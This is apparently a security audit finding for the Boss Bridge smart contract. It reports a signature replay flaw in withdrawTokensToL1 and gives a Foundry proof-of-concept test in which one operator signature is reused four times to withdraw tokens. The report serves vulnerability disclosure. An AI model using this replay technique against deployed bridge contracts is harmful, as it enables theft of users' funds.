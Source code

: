 https://github.com/Cyfrin/2023-11-Boss-Bridge/blob/main/src/L1BossBridge.sol#L113

## Summary
The `sendToL1` and `withdrawTokensToL1` function in the `L1BossBridge` smart contract is susceptible to replay attacks due to the absence of a nonce verification mechanism. The attacker can exploit this vulnerability to repeatedly withdraw tokens using the same signature, leading to potential financial losses.

## Vulnerability Details
The `sendToL1` and `withdrawTokensToL1` function allows for the withdrawal of tokens from `L2` to `L1` based on a provided signature. However, the lack of nonce verification exposes the contract to replay attacks. The proof of concept illustrates how an attacker, having successfully withdrawn tokens once, can reuse the same valid signature to execute the function multiple times. This results in the unauthorized withdrawal of tokens, as the contract does not validate whether the same signature has been used before.

## Proof of Concept
```
function testMultyCallWithSameSignature() public {
        uint256 depositAmount = 10e18;
        uint256 withdrawAmount = 1e18;

        // User deposit tokens on L1
        vm.startPrank(user);
        token.approve(address(tokenBridge), depositAmount);
        tokenBridge.depositTokensToL2(user, userInL2, depositAmount);
        vm.stopPrank();

        // Operator sing the message to withdraw tokens
        bytes memory message = _getTokenWithdrawalMessage(hacker, withdrawAmount);
        (uint8 v, bytes32 r, bytes32 s) = _signMessage(message, operator.key);

        // Hacker can withdraw tokens multiple times with the same signature
        vm.startPrank(hacker);
        tokenBridge.withdrawTokensToL1(hacker, withdrawAmount, v, r, s);
        tokenBridge.withdrawTokensToL1(hacker, withdrawAmount, v, r, s);
        tokenBridge.withdrawTokensToL1(hacker, withdrawAmount, v, r, s);
        tokenBridge.withdrawTokensToL1(hacker, withdrawAmount, v, r, s);
        vm.startPrank(hacker);

        assertEq(token.balanceOf(hacker), (withdrawAmount * 4));
}
```
## Impact
The impact of this vulnerability is severe, as it allows an attacker to repeatedly execute token withdrawals with the same signature, potentially draining the contract's token balance and causing financial harm.

## Tools Used
- Manual review
- Foundry
